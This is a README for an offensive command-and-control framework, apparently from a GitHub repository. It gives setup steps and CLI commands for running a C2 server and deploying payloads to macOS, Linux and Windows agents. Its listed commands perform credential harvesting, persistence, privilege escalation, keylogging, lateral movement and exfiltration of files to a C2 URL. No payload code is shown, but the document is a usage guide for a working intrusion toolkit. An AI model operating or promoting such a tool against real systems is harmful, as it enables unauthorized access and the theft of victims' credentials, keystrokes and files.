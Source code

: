 Installation and Setup

Clone the Repository git clone https://github.com/4lph4-01/share cd your-repo-directory

Create a Virtual Environment python -m venv venv source venv/bin/activate # On Windows, use venv\Scripts\activate

Install Dependencies pip install -r requirements.txt

Prepare Payloads (If necessary) Ensure your payload scripts are in the payloads directory:
    payloads/macos_payload.sh
    payloads/linux_payload.sh
    payloads/windows_payload.ps1

Running the C2 Server

python c2_server.py CLI Usage

List Agents python cli.py list-agents

Deploy Payload python cli.py deploy-payload <agent_type> Replace <agent_type> with macos, linux, or windows.

Select and Send Commands to an Agent python cli.py select-agent You can specify the agent ID directly or choose from a list of available agents.

Generate Report python cli.py generate-report

Send a Specific Command python cli.py send-command <agent_id>

Supported Commands

Credential Harvesting python cli.py send-command <agent_id> cred_harvest

Persistence python cli.py send-command <agent_id> persistence

Privilege Escalation python cli.py send-command <agent_id> priv_escalation

Reconnaissance python cli.py send-command <agent_id> reconnaissance

Data Exfiltration python cli.py send-command <agent_id> exfiltrate <file_path> <c2_url> Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging python cli.py send-command <agent_id> keylogging

Lateral Movement python cli.py send-command <agent_id> lateral_movement Modules Directory Structure Ensure you have a modules directory with the following structure and content: modules/ cred_harvest.py persistence.py priv_escalation.py reconnaissance.py exfiltration.py keylogging.py lateral_movement.py
